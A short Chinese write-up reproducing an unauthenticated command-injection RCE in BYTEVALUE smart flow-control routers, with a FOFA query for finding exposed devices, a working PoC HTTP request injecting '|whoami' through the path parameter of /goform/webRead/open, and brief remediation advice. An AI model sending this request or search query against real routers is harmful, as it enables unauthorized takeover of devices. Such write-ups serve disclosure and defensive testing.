


# 百为智能流控路由器 RCE漏洞复现

### 0x01 产品简介

 BYTEVALUE 百为流控路由器是一款追求带宽利用率的多功能路由器。

### 0x02 漏洞概述

百为智能流控路由器 /goform/webRead/open 路由的 ?path 参数存在有回显的命令注入漏洞,未经身份认证的攻击者可以利用此漏洞执行任意指令，获取服务器权限。

### 0x03 复现环境

FOFA：app="BYTEVALUE-智能流控路由器"



### 0x04 漏洞复现 

PoC

```cobol
GET /goform/webRead/open/?path=|whoami HTTP/1.1
Host: your-ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
```



### 0x05 修复建议

目前官方已提供解决方案，请关注厂商主页更新：http://www.bytevalue.com/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
